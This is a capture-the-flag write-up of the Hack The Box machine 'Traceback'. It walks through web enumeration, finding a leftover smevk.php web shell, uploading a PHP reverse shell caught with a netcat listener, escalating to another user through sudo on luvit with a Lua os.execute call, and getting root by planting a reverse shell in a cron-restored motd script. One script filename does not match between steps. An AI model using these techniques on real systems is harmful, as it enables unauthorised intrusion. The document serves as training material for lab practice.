```yaml
---
title: "Traceback"
description: "Writeup for Traceback machine from HTB"
date: 2020-08-09
author: "Pablo Jesús González Rubio"
cover: "traceback.png"
coverAlt: "Traceback icon"
toc: true
tags: [ "Writeup" ]
---
```


## Scanning

Hosts: `10.10.10.181 traceback.htb`

Nmap Output:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-08 21:51 CEST
Nmap scan report for traceback.htb (10.10.10.181)
Host is up (0.050s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.56 seconds
```

## Enumeration

Gobuster didn't throw anything.

In the HTTP page appears this:

{{< img "HTTP.png" "Free Internet" "border" >}}

Looking at source code:

{{< img "HTTP_source.png" "Source Code" "border" >}}

There's this commented phrase:

`<!--Some of the best web shells that you might need ;)-->`

Searching it on the internet lead me to [this Github page](https://github.com/Xh4H/Web-Shells).

As the page says it has a backdoor, I ran gobuster with the list of web shells:

```
gobuster dir -u http://traceback.htb -w list_web_shells.txt
```

```
alfa3.php
alfav3.0.1.php
andela.php
bloodsecv4.php
by.php
c99ud.php
cmd.php
configkillerionkros.php
jspshell.jsp
mini.php
obfuscated-punknopass.php
punkholic.php
punk-nopass.php
r57.php
README.md
smevk.php
wso2.8.5.php
```

The only result it throws is: `smevk.php`

So I went to *traceback.htb/smevk.php*:

{{< img "smevk.png" "smevk" "border" >}}

Entering in the login form `admin`:`admin` let us in:

{{< img "smevk2.png" "smevk2" "border" >}}

## Exploitation

It lists some files, included a PHP reverse shell which is the [pentest monkey one](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

I downloaded it and called it `reverse_shell.php`. I modified it and uploaded it, so what's left is to enter the url: `traceback.htb/reverse_shell.php` and we have a connection (listening with `nc -lnvp 4444`).

Then began with the [TTY procedure](https://pablogonzalez.me/posts/pentest_cheatsheet/#tty) with python3 as python seems to not be installed.

## Privilege Escalation

### User

We log in as `webadmin` (similar to the `www-data`), and in his directory, there's this `note.txt` from `sysadmin`:

```
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

And by doing the usual privilege escalation checkups such as `sudo -l`:

```
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

I saw I could run [`luvit`](https://luvit.io/) as `sysadmin`. Luvit is related to Lua. I instantly searched how to execute commands from Lua such as `/bin/bash`:

```lua
os.execute("/bin/bash")
```

I placed this script as `shell.lua` in `webadmin's` directory and run:

```
sudo -u sysadmin /home/sysadmin/luvit ./reverse.lua
```

And that granted me `sysadmin` user, pretty easy huh 

### Root

I copied my `id_rsa.pub` to `authorized_keys` just in case I lose my shell.

Running `pspy` on the machine let me see:

{{< img "pspy.png" "pspy" "border" >}}

This means there's a cron copying *motd* backup files to the original place which is `/etc/update-motd.d/`.

> *motd*: Message of The Day, it's a bash script that prints a banner when an SSH login is performed. Usually, the file that is used is `00-header`.

When performing an SSH, `pspy` shows:

{{< img "pspy_ssh.png" "ssh" "border" >}}

So taking this into account I could modify the `00-header` with a reverse shell and connect again (have to be in less than 30 secs as cron is updating the files forever) with SSH while listening on the port we choose, in my case 3333. And... voilá!

{{< img "root.png" "root" "border" >}}


